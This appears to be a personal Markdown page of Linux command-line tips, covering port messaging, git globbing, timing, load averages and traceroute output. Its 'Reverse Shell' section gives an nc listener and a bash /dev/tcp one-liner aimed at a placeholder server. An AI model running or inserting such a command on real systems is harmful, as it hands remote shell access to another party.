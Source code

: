 # Linux CLI Tricks

## Send a String to an IP/Port

```bash
telnet 127.0.0.1 80

(echo hello; sleep 1) | telnet 127.0.0.1 80

echo hello > /dev/tcp/127.0.0.1/80

echo hello | nc localhost 80
```

## Reverse Shell

```bash
# server
nc -knvlp 3389

# client
bash -i >& /dev/tcp/server_ip/3389 0>&1
```

## See Also

- https://tldp.org/LDP/abs/html/x17974.html
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://catonmat.net/bash-one-liners-explained-part-three
- http://docs.eggplantsoftware.com/epp/9.0.0/ePP/advovercoming_tcpip_connection_li.htm

## Target Everything but One File

```bash
git add !(unit.md)
```

## Print a Random Line from a File

```bash
sed "$(( $RANDOM % $(cat readme.txt | wc -l) ))q;d" readme.txt

shuf readme.txt | head -1
```

## Epoch Seconds

From bash 5.

```bash
$ echo $EPOCHREALTIME
1614870873.574544

$ echo $EPOCHSECONDS
1614870876
```

## Uptime

The three load average values are 1, 5 and 15 minutes.

```bash
$ uptime
15:29:28 up 20:23, 0 users, load average: 5.08, 1.49, 0.51
```

## Stress

Stress your system in different ways.

```bash
$ stress --cpu 8
```

## Number of Processors

```bash
$ make -j $(nproc)
```

## Synonyms for Localhost

```bash
localhost
127.0.0.1
127.0.0.2
127.0.0.3
127.1
0.0.0.0
0 # wut
```

## Move a File Out of the Way

```bash
mv {,_}.bash_history
```

## Verbose Time

```bash
$ /usr/bin/time -v ls /
bin dev home lib lib64 lost+found mnt proc run snap sys usr
boot etc init lib32 libx32 media opt root sbin srv tmp var
Command being timed: "ls /"
User time (seconds): 0.00
System time (seconds): 0.00
Percent of CPU this job got: 100%
Elapsed (wall clock) time (h:mm:ss or m:ss): 0:00.00
Average shared text size (kbytes): 0
Average unshared data size (kbytes): 0
Average stack size (kbytes): 0
Average total size (kbytes): 0
Maximum resident set size (kbytes): 2412
Average resident set size (kbytes): 0
Major (requiring I/O) page faults: 0
Minor (reclaiming a frame) page faults: 126
Voluntary context switches: 1
Involuntary context switches: 0
Swaps: 0
File system inputs: 0
File system outputs: 0
Socket messages sent: 0
Socket messages received: 0
Signals delivered: 0
Page size (bytes): 4096
Exit status: 0
```

## Vendor IDs

View the latest on [ieee.org](http://standards-oui.ieee.org/oui.txt).

To install on Ubuntu:

```bash
sudo apt install --yes arp-scan
get-oui
```

## Pushd Equivalent

I use this all the time. Rather than `pushd` and `popd` to navigate around the file system:

```bash
# Navigate to new dir
cd ~/deanturpin.gitlab.io/content/post

# Return whence you came
cd -
```

## Last Argument

I've used `esc shift -` to get the last argument from the previous command for a long time. But it's a little unwieldy and you can do the same with `alt .`.

## MTR: "My Traceroute"

Like tracepath/route but cooler.

```bash
My traceroute [v0.93]
BootCamp-0263E (172.25.71.53) 2021-04-10T13:22:42+0100
Keys: Help Display mode Restart statistics Order of fields quit
Packets Pings
Host Loss% Snt Last Avg Best Wrst StDev
1. BootCamp-0263E.7thsensedesign.local 0.0% 37 0.6 0.7 0.2 3.5 0.5
2. 192.168.0.1 97.2% 37 5.6 5.6 5.6 5.6 0.0
3. (waiting for reply)
4. brig-core-2b-xe-810-0.network.virginmedia.net 0.0% 37 11.6 15.1 11.1 32.4 4.6
5. (waiting for reply)
6. eislou2-ic-3-ae0-0.network.virginmedia.net 0.0% 37 22.1 26.5 20.0 51.8 7.5
7. 72.14.221.42 0.0% 37 22.7 25.1 20.4 46.0 5.4
8. 108.170.246.161 0.0% 37 19.2 23.4 18.7 39.5 5.0
9. 108.170.246.175 63.9% 37 23.3 28.1 22.9 45.5 6.6
10. 216.239.58.179 63.9% 37 22.2 29.2 22.2 62.7 10.7
11. 142.250.210.20 0.0% 37 101.4 104.0 98.5 111.8 3.4
12. 142.250.210.24 66.7% 37 115.7 114.8 110.2 123.0 3.3
13. 209.85.247.212 66.7% 37 115.7 114.9 108.7 131.7 6.5
14. 209.85.241.205 66.7% 37 111.9 116.2 111.2 129.3 5.0
15. (waiting for reply)
16. (waiting for reply)
17. (waiting for reply)
18. (waiting for reply)
19. (waiting for reply)
20. (waiting for reply)
21. (waiting for reply)
22. (waiting for reply)
23. (waiting for reply)
24. 35.185.44.232 0.0% 36 110.9 113.7 108.8 132.4 5.5
```

## See Also

- https://github.blog/2015-06-08-how-to-undo-almost-anything-with-git/
